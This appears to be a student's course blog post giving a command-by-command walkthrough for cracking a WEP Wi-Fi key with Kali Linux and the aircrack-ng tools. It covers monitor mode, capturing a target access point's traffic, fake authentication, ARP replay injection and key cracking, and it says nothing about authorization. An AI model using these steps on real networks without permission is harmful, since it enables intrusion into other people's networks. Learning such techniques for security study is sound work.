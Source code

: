 ```yaml
---
layout: post
title: "Blog 8"
description: "CIT 480 blog 8"
categories: [uncategorized]
tags: [random, jekyll]
redirect_from:
  - /2019/11/2/
---
```


# How to hack WEP Key?

__Hardware/Software Requirements__

* ALFA Network AWUS036AC WiFi Adapter.
* Kali Linux.

__Step 1: Install WiFi Adapter Driver on Kali Linux__

* Driver on Alfa Network’s Website will probably not work on Kali Linux. So perform steps below.
* apt-get update
* apt-get upgrade
* apt-get install realtek-rtl88xxau-dkms

__Step 2: Set WiFi Adapter to Monitor Mode__

To check if adapter is present
* iwconfig
To put WiFi Adapter in monitor mode.
* airmon-ng start wlan0
If processes are present then kill the processes.
* airmon-ng check kill
Run Again
* airmon-ng start wlan0
Confirm WiFi Adapter is in Monitor Mode
* iwconfig

__Step 3: Scan Network__

Find your target
* Airodump-ng wlan0
Copy BSSID of Target AP
Remember channel number

__Step 4: Start a IV Capture on Target AP__

* Open New Terminal
* airodump-ng -c <channel-number> --bssid <AP BSSID> -w <file_name> -i wlan0
	* -c to specify AP’s broadcasting channel
	* --bssid to specify MAC of Target AP
	* -w to specify where to save your initialization vectors
	* -i to save initialization vectors only and discard all other data

__Step 5: Fake Authentication__

#WiFi Adapter needs to be associated with AP to be able to inject packets later. 
* Open New Terminal
* aireplay-ng -1 0 -e <SSID of Target AP> -a <BSSID of Target AP> wlan0
	* -1 means fake authentication
	* 0 means reassociation timing in seconds
	* -e to specify name of the network
	* -a is the access point MAC address

__Step 7: Packet Injection__

* Open New Terminal
* aireplay-ng -3 -b <AP MAC> wlan0
	* -3 ARP request replay
	* -b to specify AP MAC

__Step 8: Crack WEP Key__
#Collect enough IVs
* Open New Terminal
* aircrack-ng <file_name.cap>



























